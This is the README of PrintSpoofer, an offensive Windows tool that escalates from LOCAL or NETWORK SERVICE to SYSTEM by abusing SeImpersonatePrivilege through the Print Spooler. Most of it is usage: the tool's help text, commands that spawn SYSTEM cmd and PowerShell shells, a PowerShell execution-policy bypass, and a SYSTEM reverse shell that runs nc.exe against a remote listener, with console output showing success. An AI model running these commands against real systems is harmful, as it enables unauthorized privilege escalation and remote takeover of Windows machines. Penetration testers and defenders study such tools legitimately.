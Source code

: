 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

<p align="center">
  <img src="demo.gif">
</p>

## Prerequisites

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Custom command line to execute
  -i          Interact with the new process in the current console (default is non-interactive)
  -d          Spawn a new process on the currently active desktop
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the currently active desktop
      PrintSpoofer.exe -d -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.1337 1337 -e cmd"
```

### Spawn a SYSTEM command prompt in the current console

:information_source: This command requires an __interactive__ shell.

:warning: Don't run this command through WinRM or in a pseudo-shell (e.g.: `wmiexec.py`).

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Get a SYSTEM reverse shell

:information_source: This command can be used to create a new process and immediately exit.

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Spawn a SYSTEM PowerShell prompt on the active desktop

:information_source: For testing purposes, you can spawn a SYSTEM shell on your desktop. :)

:warning: Don't run this command in a terminal session (RDP).

```txt
C:\TOOLS>PrintSpoofer.exe -d -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
